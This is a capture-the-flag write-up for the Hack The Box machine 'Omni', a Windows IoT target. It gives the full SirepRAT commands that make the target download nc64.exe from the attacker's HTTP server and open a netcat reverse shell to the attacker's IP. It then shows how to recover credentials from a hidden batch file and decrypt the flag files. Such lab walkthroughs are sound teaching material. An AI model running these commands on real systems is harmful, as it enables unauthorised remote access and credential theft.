 ## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.
![portscan](Pictures/omniScan.png)

So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the upnp service. ARCserve also might give you a hint as it looks to be an IoT related storage solution.

If you try to browse to the 8080 port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called SirepRAT. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.

However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like NetCat perhaps?

It’s important to mention that the proper version of nc.exe is needed for this to work. I used nc64.exe acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)

After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the SirepRAT.py script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run cmd.exe to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the Temp directory.

You’ll see a log in your Python terminal to confirm it was downloaded.

Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the SirepRAT.py script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.

From here you can look around all you want. However, an important file to note is located in C:\Program Files\WindowsPowerShell\Modules\PackageManagement. This file is hidden so use dir /ah to see it. You’ll see an r.bat file and in here you’ll find the passwords for user administrator and user app.

![shell](Pictures/omniShell.png)

Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

![login](Pictures/omniLogin.png)

From here, you’ll see that under Processes menu, you have the ability to execute commands. You can use that same nc64.exe we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

![xml](Pictures/omniXML.png)

After some more Googling, we can decrypt these using Powershell.

After opening a powershell prompt, we can use the following command on both root.txt and user.txt under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.

![finalFlag](Pictures/omniFlag.png)
